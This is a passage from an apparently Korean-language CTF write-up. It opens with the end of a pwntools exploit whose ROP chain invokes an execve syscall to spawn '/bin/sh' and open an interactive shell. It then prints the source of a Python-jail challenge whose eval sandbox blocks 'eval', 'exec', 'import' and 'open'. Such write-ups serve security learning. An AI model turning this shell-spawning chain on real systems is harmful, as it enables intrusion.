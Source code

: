 ```python
payload += p64(0x3b)
payload += POP_RDI
payload += SH_BUFF
payload += POP_RSI
payload += p64(0x0)
payload += POP_RDX
payload += p64(0x0)
payload += SYSCALL

p.sendlineafter(':',payload)
p.send('/bin/sh\x00')

p.interactive()
```


# Michael Scofield

<p align="center"><img src="/assets/img/FortID-CTF-2025/chall3_title.png"></p>

`pyjail` 문제입니다.(이게 왜 포너블?) 다음과 같은 코드가 주어집니다.

```python
def check_pattern(user_input):
    """
    This function will check if numbers or strings are in user_input.
    """
    return '"' in user_input or '\'' in user_input or any(str(n) in user_input for n in range(10))


while True:
    user_input = input(">> ")

    if len(user_input) == 0:
        continue

    if len(user_input) > 500:
        print("Too long!")
        continue

    if not __import__("re").fullmatch(r'([^()]|\(\))*', user_input):
        print("No function calls with arguments!")
        continue

    if check_pattern(user_input):
        print("Numbers and strings are forbbiden")
        continue

    forbidden_keywords = ['eval', 'exec', 'import', 'open']
    forbbiden = False
    for word in forbidden_keywords:
        if word in user_input:
            forbbiden = True

    if forbbiden:
        print("Forbbiden keyword")
        continue

    try:
        output = eval(user_input, {"__builtins__": None}, {})
        print(output)
    except:
        print("Error")
```